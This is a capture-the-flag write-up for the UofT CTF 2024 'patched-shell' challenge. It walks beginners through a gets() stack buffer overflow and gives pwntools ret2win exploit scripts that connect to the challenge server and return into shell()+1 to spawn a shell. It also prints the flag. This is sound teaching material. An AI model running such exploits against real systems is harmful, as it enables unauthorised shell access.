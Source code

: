 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 250
solves: 199
tags: pwn pwn/ret2win pwn/buffer-overflow
date: 2024-1-15
comments: false
---
```


Okay, okay. So you were smart enough to do basic overflow huh...  

Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha  

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.  

Author: drec  
`nc 34.134.173.142 5000`  
[patched-shell](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/patched-shell)  

---

### Disclaimer
Most of this challenge was pretty much identical to basic-overflow. Skip towards the end if you already solved basic-overflow or read a writeup for it.  

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  system("/bin/sh");
  return;
}
```

So this seems to be what's changed. But... doesn't this still pop a shell? Hm. Let's try thes same solution as in basic-overflow, i.e. overriding the return address with the address of the shell function.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

However, this doesn't actually work. I wasn't sure why it wasn't working, and spent 30 minutes just trying to look for a solution online. Turns out I'm stupid! The stack offset just becomes unaligned if we return to the first instruction of shell(), i.e. `push rbp`, so it will work just fine if we add 1 to the address of shell, thus returning to the next instruction instead and avoiding the push instruction.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'] + 1) # only change
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{patched_the_wrong_function}